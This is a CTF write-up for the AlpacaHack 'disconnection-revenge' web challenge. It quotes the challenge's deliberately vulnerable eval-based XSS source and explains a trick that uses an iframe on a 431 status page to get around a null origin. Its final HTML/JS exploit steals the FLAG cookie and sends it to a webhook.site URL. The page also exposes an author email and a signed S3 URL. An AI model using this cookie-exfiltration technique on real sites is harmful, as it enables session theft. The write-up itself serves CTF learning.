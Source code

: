 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466R6TT25X5%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T123140Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDQaCXVzLXdlc3QtMiJGMEQCIH3v%2Bh02PQvmJO%2FaPXHqz8d1en7nclU6jCVgsbYiJbHiAiAgq5CmNR4kSEI4AMZfW8DPtnxdMwxO1fWnh7vD7aOH3CqIBAjt%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMGvBUnbvg0gEw8t32KtwD4YcgdhlncuOZIMfFgbrMehn310JJXDM7OhhqIDJmqJyosNVHSn5GQ%2F8RY2s0xEkAdbeMZboEkV%2BkUcQQdcqXqIdj8BI%2Fu8hdgCjib%2BMIta9jQMuxgPkPEvOIXh9F1bu3YdEdYCPEu1Ix%2FXC4%2B0rFtvcxNTdxPzNvR8UBPchNMOLJ67tx9cXIdxPKGOc6DPr%2FJxAAuP4HX8Q0yYcesJflT1gembBDr7dqvyqxY7FU395rFFCxY62d96Th9ntcQ8fUpGRmfQc6W5QEkjilT7DNOZBHvwEQAMON3QNouztmqgadjNS0Rvdo%2B0CJRVGJxWkL%2BZfFMrnldJvF4sO1ZT%2FzaN8plOiaVcUjs%2Fvi0WSkvPuZTQHMLsW8PMlkrIVZZxJwECmjlSzEnvFCcwgyGQWwDPe3R7rI%2BI0cRk60blz7r2K6S5EsYGVlBJQS4oYV%2FzVP4JviYzMn66Ba%2FSsJ4JNqjhhy47xtYE9Y2AjuHJbsiDHEGre5I%2BNdxAhDr2Tt2g%2BAu0CZabyUer%2BPrKmUEb0y%2BW1Vw7AbV73SM7TU41SrjhBTA0P5r946nje8OeVDeLyt0FnQa%2F8fUuVXALX8O5zI49g7wKYb3qJ7hQ1Uf1jZGJEk9Y3Bx8S1gtQp3dUwg7%2FBwQY6pgEACtHphzE6u250ETonc4imimkLqNjCAqHctQSvb7Ge1EmvHb%2Bn4v3dAjDKgy1fF%2Br9EoFatJjwWqoxIpVCLQ%2FIF%2FDMl1YWhVWq6hTu2pVYV21KtkSwbK%2FtmZz6mgW1oCocAKeutHJ7A7HJccFJLOpdSfkL8bEIliYwBJjZ9xsI%2FWdej%2BqCy9%2BfayTGqM9SBQSY3hVPHeg%2FZi%2FmeFMOFf8JfTYLkaZB\&X-Amz-Signature=44ea2210d2214b4228a7a70dc8ab53905440a0a0046fa982275cd42e3703baa3\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
